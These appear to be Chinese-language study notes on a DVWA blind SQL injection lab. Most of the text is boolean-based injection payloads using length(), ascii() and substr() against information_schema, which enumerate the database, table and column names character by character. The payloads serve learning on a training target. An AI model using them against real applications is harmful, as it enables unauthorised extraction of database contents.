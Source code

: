 >[!note] 参考文章
> [https://www.yijinglab.com/specialized/20210203103111](https://www.yijinglab.com/specialized/20210203103111)
> [https://xz.aliyun.com/t/6595?time__1311=n4%2BxnD0Dg7i%3D3BKG%3DDODlhjeYZGDBD8YxQwmID](https://xz.aliyun.com/t/6595?time__1311=n4%2BxnD0Dg7i%3D3BKG%3DDODlhjeYZGDBD8YxQwmID)

>[!hint]
>
>DVWA 参考 https://www.cnblogs.com/escwq/p/12498925.html
### 文字叙述一下 dvwa 中的盲注题

##### Low Difficulty
Try
``` sql
1 or 1=1
```
发现回显了 true，应该是没做过滤

>[!note] 一些关键的函数，有可能通过表名查数据库吗#
>- ascii ()
>- length ()
>- substr ()

> 用法：substr(string string,num start,num length);
> select  substr(参数1，参数2，参数3)  from  表名  
> string为字符串；start为起始位置；length为长度。
> 注意：mysql中的start是从1开始的。
> 例子:(查出kename字段中第一次出现.之前的字符串)


### 解题


#### 数据库
- 数据库名长度
``` sql
 1 and length(database())=4 #      //数据库名长度为4
```
- 猜数据库名
- 第一个是 115-s
- 第二个是 113-q
- 猜测是 sqli
``` sql
1 and ascii(substr(database(),1,1))=`ASCII_CODE` #
```
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240720135153.png)

#### 表
- 表名长度长度为 4 直接猜是 flag 吧
```sql
select * from news where id=1 or (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4) #
```

- 猜表名
``` sql
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>32)--+正常
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>128)--+不回显
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80)--+正常
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>104)--+正常
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>116)--+正常
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>122)--+不回显
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>119)--+不回显
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>119)--+不回显
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>118)--+不回显
" or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>117)--+不回显
```

#### 字段
- 字段长
``` sql
" or (length((select column_name from information_schema.columns where table_name='user_2' and table_schema=database() limit 0,1))=2)--+正常

" or (length((select column_name from information_schema.columns where table_name='user_2' and table_schema=database() limit 1,1))=8)--+正常

" or (length((select column_name from information_schema.columns where table_name='user_2' and table_schema=database() limit 2,1))=8)--+正常
```
- 所以user_2表的数据字段长度分别为2、8、8